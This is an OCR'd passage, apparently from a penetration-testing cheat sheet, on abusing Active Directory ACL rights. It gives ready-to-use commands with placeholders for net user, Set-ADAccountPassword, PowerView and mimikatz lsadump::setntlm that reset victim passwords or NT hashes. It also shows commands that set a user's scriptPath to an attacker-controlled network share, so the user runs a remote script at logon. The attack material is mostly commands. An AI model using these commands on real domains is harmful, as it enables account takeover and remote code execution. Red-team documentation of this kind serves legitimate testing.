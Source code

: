 | Group | `WriteProperty` (`RIGHT_DS_WRITE_PROPERTY`) to the `Member` attribute. <br/><br/> `Member`'s `Rights-GUID`: `bf9679c0-0de6-11d0-a285-00aa003049e2`. | Ability to update any non-protected group members, thus allowing to add others security principals to the group. |

###### User - GenericAll / ExtendedRight's ForceChangePassword / AllExtendedRights

The `net user` built-in utility, `RSAT`'s `Set-ADAccountPassword` /
`PowerView`'s `Set-DomainUserPassword` PowerShell cmdlets, and `mimikatz`'s
`lsadump::setntlm` function can be used to reset a vulnerable user's password:

```
# net user will only allow password reset if a GenericAll ACE is exploited.
net user <USERNAME> <PASSWORD> /domain

Set-ADAccountPassword -Identity <SamAccountName | DistinguishedName | SID | GUID> -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "<PASSWORD>" -Force)
Set-ADAccountPassword -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredentials> -Identity <SamAccountName | DistinguishedName | SID | GUID> -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "<PASSWORD>" -Force)

$UserPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
Set-DomainUserPassword -Identity <SamAccountName | DistinguishedName | SID | GUID> -AccountPassword $UserPassword
Set-DomainUserPassword -Domain <DOMAIN> -Credential <PSCredentials> -Identity <SamAccountName | DistinguishedName | SID | GUID> -AccountPassword $UserPassword

mimikatz # privilege::debug
mimikatz # lsadump::setntlm /server:<DC_FQDN | HOSTNAME> /user:<USERNAME> [/password:<PASSWORD> | /ntlm:<NT_HASH>]
```

If only
###### User - GenericWrite / Write-Property to all attributes or to the Script-Path attribute

The `RSAT`'s `Set-ADObject` and `PowerView`'s `Set-DomainObject` PowerShell
cmdlets can be used to modify the properties of a security object.

```
Set-ADObject -Identity <SamAccountName | DistinguishedName | SID | GUID> [-Add / -Replace] @{scriptpath="\\<IP>\<SHARE>\<SCRIPT>"}
Set-ADObject -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredentials> -Identity <SamAccountName | DistinguishedName | SID | GUID> [-Add / -Replace] @{scriptpath="\\<IP>\<SHARE>\<SCRIPT>"}

Set-DomainObject -Identity <SamAccountName | DistinguishedName | SID | GUID> -Set @{scriptpath="\\<IP>\<SHARE>\<SCRIPT>"}
Set-DomainObject -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredentials> -Identity <SamAccountName | DistinguishedName | SID | GUID> -Set @{scriptpath="\\<IP>\<SHARE>\<SCRIPT>"}
```

###### User - GenericWrite / Write-Property to all attributes or to the Public-Information/servicePrincipalName attribute

The `Public-Information` attribute contains, among others, the
`User-Principal-Name` and `Alt-Security-Identities` properties.
